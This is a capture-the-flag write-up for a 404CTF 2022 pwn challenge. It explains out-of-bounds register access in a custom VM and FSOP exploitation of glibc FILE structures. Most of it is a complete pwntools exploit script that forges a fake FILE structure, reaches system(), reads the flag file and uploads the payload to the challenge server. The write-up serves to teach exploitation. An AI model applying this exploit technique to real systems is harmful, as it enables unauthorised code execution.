

## Changement d'architecture [2/2]

was a pwn challenge from 404CTF 2022 edition.

The first one **Changement d'architecture [1/2]** was a reverse challenge, it's a virtual machine, a processor emulator which emulate a sort of Arm "Lite" processor...

Now, with the same binary, we have to gain code execution by exploiting vulnerabilities in the virtual machine

I did the reverse already in the first challenge, so we know already the architecture, and even have a basic disassembler.

**Let's have a look at the setup fonction of the virtual machine:**


**Three things are important to note here:**

- At the beginning we can see that 0x48 bytes are allocated on heap, to store the registers (8 registers r0-r7 plus stack register).
- Then the file containing the virtual machine code is opened, and memory is allocated on heap to store it
- the FILE * filedescriptor is not closed after the file is read.

**Let's have a look at the heap state after setup:**


You can see the register zone (0x50 size chunk) on heap tainted in blue (wonderful effect I know..),  and just after the FILE* structure (0x230 size chunk).

Just after the FILE * structure, is the buffer for FILE * structure and the memory allocated for our virtual machine instructions, read from the file.

We will keep in our memory the structure of the heap...

Now, let's see what vulnerabilities can be used (and abused) in the virtual machine.

First , there is an obvious vulnerability in register decoding , an out of bound memory acess in almost all logic operations: add, sub, shl, and, etc..

there is a register index that is coded on 8 bit, in all these instructions. And it is accessed relatively to our registers chunk on heap, without checking if it tries to access a registers bigger than 8  (as there are 8 general registers..) so we can access memory after our registers chunks up to 8*256 in range (2048 bytes so..)


There is a second vulnerability in pop instruction, where data is read with `mem[regs->stack]` , and reg-->stack is 64bit and not check for bound.. so we could use that as a read primitive.  But we will not use this one.


So how can we have code execution  ,  with a relative oob r/w of 2048 bytes maximum range on heap?


The answer is FSOP, as explained here for example.

https://faraz.faith/2020-10-13-FSOP-lazynote/

https://dhavalkapil.com/blogs/FILE-Structure-Exploitation/


If we forge a fake FILE * structure on heap, just after the FILE * structure from setup. And link the two structures, as file structures (stdin, stdout, sterr, files, ) are linked between them like a linked list,..

When the program will exit, it will parse the `_IO_list_all` list of all FILE structure, and "close them"

By forging the fake FILE * structure, we can call whatever function we want `system()` in our case  and control its argument in `rdi` too

so at the exit of the program,  `__GI_exit()` is called, then `__run_exit_handlers()`,  then `__IO_cleanup()`, as you can see here:


then with the correct forging of our fake FILE *structure, `_IO_str_overflow()` will be called


then it will called our function with arguments  set in the fake FILE *structure..

we will do a simple `'cat /app/flag.txt'` to dump the flag... and that's all...



Maybe you understand nothing of my explanation..

And I'm sorry for this :)

But you can't still read the code.

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import requests

context.update(arch="amd64", os="linux")
context.terminal = ['xfce4-terminal', '--title=GDB-Pwn', '--zoom=0', '--geometry=128x98+2900+0', '-e']
context.log_level = 'error'

exe = ELF('./vm_patched')
libc = ELF('./libc.so.6')

# init
pos = 0
payload = ''

def switchl():
  global pos
  global payload
  payload += p8(0x00) + p8(0xbb) + p16(pos+8+1)+p8(0)*4
  pos += 8

def mode():
  global pos
  global payload
  payload += p8(0x09) + p8(0x00) + p8(0xbb) + p8(0)
  pos += 4

def jmp_reg(val):
  global pos
  global payload
  payload += p8(val) + p8(0x00) + p8(0xbb) + p8(0)
  pos += 4

def and_dst_src_imm(dst,src,imm):
  global pos
  global payload
  payload += p8(dst) + p8(imm) + p8(0x4d) + p8((src<<4)|0x0f)
  pos += 4

def and_dst_src_src2(dst,src,src2):
  global pos
  global payload
  payload += p8(dst) + p8(src2) + p8(0x4d) + p8((src<<4))
  pos += 4

def shr_dst_src_imm(dst,src,imm):
  global pos
  global payload
  payload += p8(dst) + p8(imm) + p8(0xd2) + p8((src<<4)|0x0f)
  pos += 4

def shr_dst_src_src2(dst,src,src2):
  global pos
  global payload
  payload += p8(dst) + p8(src2) + p8(0xd2) + p8((src<<4))
  pos += 4

def add_dst_src_imm(dst,src,imm):
  global pos
  global payload
  payload += p8(dst) + p8(imm) + p8(0xAd) + p8((src<<4)|0x0f)
  pos += 4

def add_dst_src_src2(dst,src,src2):
  global pos
  global payload
  payload += p8(dst) + p8(src2) + p8(0xAd) + p8((src<<4))
  pos += 4

def sub_dst_src_imm(dst,src,imm):
  global pos
  global payload
  payload += p8(dst) + p8(imm) + p8(0x5b) + p8((src<<4)|0x0f)
  pos += 4

def sub_dst_src_src2(dst,src,src2):
  global pos
  global payload
  payload += p8(dst) + p8(src2) + p8(0x5b) + p8((src<<4))
  pos += 4

def xor_dst_src_imm(dst,src,imm):
  global pos
  global payload
  payload += p8(dst) + p8(imm) + p8(0x10) + p8((src<<4)|0x0f)
  pos += 4

def xor_dst_src_src2(dst,src,src2):
  global pos
  global payload
  payload += p8(dst) + p8(src2) + p8(0x10) + p8((src<<4))
  pos += 4

def shl_dst_src_imm(dst,src,imm):
  global pos
  global payload
  payload += p8(dst) + p8(imm) + p8(0x37) + p8((src<<4)|0x0f)
  pos += 4

def shl_dst_src_src2(dst,src,src2):
  global pos
  global payload
  payload += p8(dst) + p8(src2) + p8(0x37) + p8((src<<4))
  pos += 4

def or_dst_src_imm(dst,src,imm):
  global pos
  global payload
  payload += p8(dst) + p8(imm) + p8(0xb) + p8((src<<4)|0x0f)
  pos += 4

def or_dst_src_src2(dst,src,src2):
  global pos
  global payload
  payload += p8(dst) + p8(src2) + p8(0xb) + p8((src<<4))
  pos += 4

def push_imm(val):
  global pos
  global payload
  payload += p8(0x0f) + p8(0x65) + p16(val) + p8(0)*4
  pos += 8

# push multiple regs, num, and list
def push_regs(num, v1=0,v2=0,v3=0,v4=0,v5=0,v6=0):
  global pos
  global payload
  payload += p8(num<<4) + p8(0x65) + p8(v1) + p8(v2) + p8(v3) + p8(v4) + p8(v5) + p8(v6) 
  pos += 8

def pop_reg(r):
  global pos
  global payload
  payload += p8(0x10) + p8(0x56) + p8(r)  + p8(0)*5
  pos += 8

# pop multiple regs, num, and list
def pop_regs(num, v1=0,v2=0,v3=0,v4=0,v5=0,v6=0):
  global pos
  global payload
  payload += p8(num<<4) + p8(0x56) + p8(v1) + p8(v2) + p8(v3) + p8(v4) + p8(v5) + p8(v6) 
  pos += 8

def int_r7():
  global pos
  global payload
  payload += p8(0x00) + p8(0x90)  + p8(0)*6
  pos += 8

def mov_reg_reg(dst,src):
  global pos
  global payload
  payload += p8(0x10) + p8(0x17) + p8(0)*6
  pos += 8

# distance on heap where we will create our fake vtable
offset = 180

mode()
push_imm(0xfb1a)
pop_reg(6)
switchl()
shl_dst_src_imm(6,6,6)
sub_dst_src_src2(5,5,6)
add_dst_src_src2(5,5,23)	# reg5 points to libc now

mode()
push_imm(0x1410)
pop_reg(4)
switchl()
add_dst_src_src2(3,13,4)		# met offset 23 à l'addresse de notre fake vtable
sub_dst_src_imm(3,3,100)
shr_dst_src_imm(offset+5,3,1)		# met offset+5 à (libc+0x1b4096)/2
shr_dst_src_imm(offset+8,3,1)		# met offset+8 à (libc+0x1b4096)/2

# copy stdout
mode()
push_imm(0x3ec7)
pop_reg(4)
switchl()
shl_dst_src_imm(4,4,8)
or_dst_src_imm(4,4,0x60)
add_dst_src_src2(offset+1,4,5)
add_dst_src_src2(offset+2,4,5)
add_dst_src_src2(offset+3,4,5)
add_dst_src_src2(offset+4,4,5)
add_dst_src_src2(offset+29,4,5)

#copy stdin
mode()
push_imm(0x3eba)
pop_reg(4)
switchl()
shl_dst_src_imm(4,4,8)
add_dst_src_src2(offset+13,4,5)		# offset +13  --> stdin

# copy fileno = 1
mode()
push_imm(3)
pop_reg(4)
switchl()
add_dst_src_src2(offset+14,4,1)		# offset +14  --> 1

#copy  0xa000000 
mode()
push_imm(0xa000)
pop_reg(4)
switchl()
shl_dst_src_imm(4,4,8)
shl_dst_src_imm(4,4,8)
add_dst_src_src2(offset+16,4,1)		# offset +16  --> 0xa000000

# write _IO_stdfile_1_lock
mode()
push_imm(0x3ed8)
pop_reg(4)
switchl()
shl_dst_src_imm(4,4,8)
or_dst_src_imm(4,4,0x88)
add_dst_src_src2(offset+17,4,5)	# met offset 17 a libc +0x3ed888

# write _IO_wide_data_1
mode()
push_imm(0x3ed8)
pop_reg(4)
switchl()
shl_dst_src_imm(4,4,8)
or_dst_src_imm(4,4,0x88)
add_dst_src_src2(offset+20,4,5)	# met offset 20 a libc +0x3ed888

sub_dst_src_imm(offset+15,2,1)		# met offset 15 à -1
sub_dst_src_imm(offset+18,2,1)		# met offset 18 à -1

# copy flags
mode()
push_imm(0xfbad)  # flags
pop_reg(4)
switchl()
shl_dst_src_imm(4,4,8)
or_dst_src_imm(4,4,0x80)
shl_dst_src_imm(4,4,8)
or_dst_src_imm(4,4,0x00)
add_dst_src_src2(offset,1,4)	# met offset (flags) to 0x8000

# write 0xffffffff
mode()
push_imm(0xffff)
pop_reg(4)
switchl()
shl_dst_src_imm(4,4,8)
or_dst_src_imm(4,4,0xff)
shl_dst_src_imm(4,4,8)
or_dst_src_imm(4,4,0xff)
add_dst_src_src2(offset+24,1,4)	# met offset=24 (flags) to 0xffffffff

# write io_str_jumps
mode()
push_imm(0x3e83)
pop_reg(4)
switchl()
shl_dst_src_imm(4,4,8)
or_dst_src_imm(4,4,0x20)
add_dst_src_src2(offset+27,4,5)	# met offset 27 a libc +0x3e8368

# write system
mode()
push_imm(0x4f4e)
pop_reg(4)
switchl()
shl_dst_src_imm(4,4,4)
add_dst_src_src2(offset+28,4,5)	# met offset 28 system


mode()
push_imm(0x320)
pop_reg(4)
switchl()
add_dst_src_src2(23,13,4)		# met offset 23 à l'addresse de notre fake vtable


mode()
# call exit(0)
push_imm(0x22)
pop_reg(7)
int_r7()


print('payload size = '+str(len(payload)))
payload = payload.ljust(1024,'\x00')
# command to be executed
payload += 'cat /app/flag.txt\x00'

# write payload to vm_data.bin file
f = open('vm_data.bin', 'wb')
f.write(payload)
f.close()

# upload the payload to docker, or remote, or run it locally
if args.DOCKER:
    with open('vm_data.bin', 'rb') as f:
      files = {'file': f.read()}
      x = requests.post('http://127.0.0.1:5000/', files=files)
      print(x.content)
elif args.REMOTE:
    with open('vm_data.bin', 'rb') as f:
      files = {'file': f.read()}
      x = requests.post('https://changement-darchitecture.404ctf.fr/', files=files)
      print(x.content)
else:
    p = process(exe.path, 'vm_data.bin')
    p.interactive()
```

